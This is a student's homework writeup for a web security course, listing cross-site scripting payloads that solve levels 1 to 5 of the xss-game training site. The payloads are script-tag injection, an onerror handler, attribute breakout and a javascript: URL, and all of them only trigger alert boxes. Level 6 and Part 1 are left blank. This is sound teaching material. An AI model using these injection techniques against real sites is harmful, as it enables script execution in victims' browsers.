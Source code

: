 # Writeup 1 - Web I

Name: *Sara Garcia-Beech*
Section: *0101*

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: *Sara Garcia-Beech*


## Assignment details
This assignment has two parts. It is due by 11/27/19 at 11:59PM.

**There will be late penalty of 5% per day late!**

### Part 1 (40 Pts)

Such a Quick Little, website!

[http://142.93.136.81:5000/](http://142.93.136.81:5000/)

### Part 2 (60 Pts)
Complete all 6 levels of:

[https://xss-game.appspot.com](https://xss-game.appspot.com)

Produce a writeup. We will not take off points for viewing the source code and/or viewing hints, but we strongly discourage reading online write-ups as that defeats the purpose of the homework.

Level 1:

Input: `<script>alert(0);</script>`

Since the HTML was processing the raw input, I could just insert a script tag to execute Javascript.

Level 2:

Input: `<img src="nope" onerror="alert(0);"/>`

Inputting a script tag did not work here, but Javascript can also be executed via image tags' onerror attribute.

Level 3:

Link: `https://xss-game.appspot.com/level3/frame#1.jpg' />";<script>alert(0);</script>`

The HTML was choosing the image to display based on the URL specifications, so by escaping the image tag and inserting a script tag, Javascript could be executed.

Level 4:

Input: `3' + alert(0) + '`

The raw input was being processed in the Javascript code, so by escaping a command and appending an alert, the alert would be executed.

Level 5:

Link: `https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(0)`

The next link chose where to go next with the href attribute, but href can also execute Javascript upon the click of the link.

Level 6:



### Format

Part 1 and 2 can be answered in bullet form or full, grammatical sentences.

### Scoring

* Part 1 is worth 40 points
* Part 2 is worth 60 points

### Tips

Remember to document your thought process for maximum credit!

Review the slides for help with using any of the tools or libraries discussed in
class.
